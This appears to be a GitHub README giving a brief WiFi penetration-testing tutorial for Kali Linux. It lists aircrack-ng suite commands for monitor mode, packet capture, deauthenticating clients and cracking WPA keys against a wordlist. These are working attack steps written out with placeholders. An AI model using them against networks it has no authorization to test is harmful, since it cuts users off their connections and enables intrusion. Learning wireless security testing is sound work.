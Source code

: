 <h3>Penetration Testing - WiFi</h3>

OS = Kali Linux Live Everything > You may download it from https://kali.org<br>
Tools - aircrack-ng<br>
<br>
Hardwares - Atheros 9721 or ALFA Model AWUS036NH<br>
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter (Important! It should support "Monitor Mode" otherwise it will not work)<br>
<br>
Tool	Purpose	Example Command<br>
<br>
airmon-ng<br>
[Enable monitor mode] >>> sudo airmon-ng start wlan0<br>
<br>
airodump-ng<br>
[Capture network traffic] >>> sudo airodump-ng -c 6 wlan0mon<br>
<br>
aireplay-ng<br>
[Inject/deauth packets] >>> sudo aireplay-ng -0 1 ...<br>
<br>
aircrack-ng<br>
[Crack WPA/WEP keys] >>> sudo aircrack-ng -w wordlist.lst ...<br>
<br>
<br>
Kali Linux Commands:<br>
<br>
1. ifconfig to check network interfaces<br>
2. iwconfig to check wireless interfaces<br>
 By default the wireless interface is in MANAGED MODE. <br>
3. airmon-ng stop wlan0 (if the interface is wlan0)<br>
4. airmon-ng start wlan0 ( from stopping to start I will be gone into monitoring mode)<br>
5. airodump-ng wlan0 or wlan0mon<br>
6. airodump-ng --bssid "<BSSID>" --channel "<CHANNEL>" -w "<ESSID>" wlan0 (or if its wlan0mon)<br>
7. Open another terminal or terminal tab and then enter the following command<br>
8. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0<br>
9. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap<br>
